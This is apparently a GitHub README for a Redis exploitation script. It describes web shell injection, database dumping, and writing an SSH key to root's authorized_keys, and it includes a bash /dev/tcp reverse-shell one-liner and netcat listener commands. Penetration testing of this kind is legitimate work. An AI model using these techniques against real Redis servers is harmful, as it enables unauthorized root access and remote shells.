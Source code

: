 <a href="https://www.buymeacoffee.com/0xDTC"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a knowledge&emoji=📖&slug=0xDTC&button_colour=FF5F5F&font_colour=ffffff&font_family=Comic&outline_colour=000000&coffee_colour=FFDD00" /></a>

# Redis Exploit Automation Script

This script is designed for penetration testers and ethical hackers to exploit Redis misconfigurations. It automates tasks such as injecting custom web shells, dumping the Redis database, and injecting SSH keys for privilege escalation.

---

## Features
1. **Redis Connectivity Check**:
   - Verifies if the target Redis server is reachable.
   - Supports authentication if required.

2. **Custom Web Shell Injection**:
   - Prompts the user to input a custom shell command (e.g., a reverse shell payload).
   - Injects the command into a writable directory on the target.

3. **Database Dump**:
   - Dumps the Redis database to disk for offline analysis.

4. **SSH Key Injection**:
   - Injects an SSH public key for root access if the target allows configuration changes.

5. **Netcat Listener Validation**:
   - Ensures a listener (`nc -lvnp <port>`) is running before executing commands requiring it.

---

## Requirements
- **Dependencies**:
  - `redis-cli`: To interact with the Redis server.
  - `curl`: To fetch reverse shell payloads if needed.
  - `netstat`: To check for active Netcat listeners.

Install dependencies on Debian/Ubuntu:
```bash
sudo apt update
sudo apt install redis-tools curl net-tools
```

---

## Usage
1. Clone this repository:
   ```bash
   git clone https://github.com/yourusername/redis-exploit-script.git
   cd redis-exploit-script
   ```

2. Make the script executable:
   ```bash
   chmod +x redis_exploit.sh
   ```

3. Run the script:
   ```bash
   ./redis_exploit.sh <host> <port> [password]
   ```
   - Replace `<host>` with the Redis server's IP.
   - Replace `<port>` with the Redis server's port (default: 6379).
   - If authentication is required, provide the `password`. Otherwise, omit it.

---

## Menu Options
1. **Inject a Custom Web Shell**:
   - Prompts the user to input a shell command.
   - Example: A reverse shell payload such as:
     ```bash
     bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1
     ```
   - Injects the payload into a writable web directory on the target.
   - Access the web shell via: `http://<host>/customshell.php`.

2. **Dump the Database**:
   - Executes `SAVE` to dump the database to disk.
   - Provides instructions to fetch the `dump.rdb` file for offline analysis.

3. **Inject an SSH Key**:
   - Prompts for your SSH public key.
   - Injects the key into `/root/.ssh/authorized_keys`.
   - Allows SSH access to the target as `root`.

---

## Examples
- **Run Script Without Authentication**:
  ```bash
  ./redis_exploit.sh 192.168.1.10 6379
  ```

- **Run Script with Authentication**:
  ```bash
  ./redis_exploit.sh 192.168.1.10 6379 mypassword
  ```

---

## Notes
- Ensure you have a Netcat listener running for reverse shells:
  ```bash
  nc -lvnp <your-port>
  ```

- The script will wait until the listener is active before proceeding with shell injection.

---

## Disclaimer
This script is intended for legal and ethical use only. Ensure you have explicit permission before testing or exploiting any Redis server. Misuse of this script may lead to legal consequences.

---

## Contribution
Feel free to open issues or submit pull requests to improve the script!
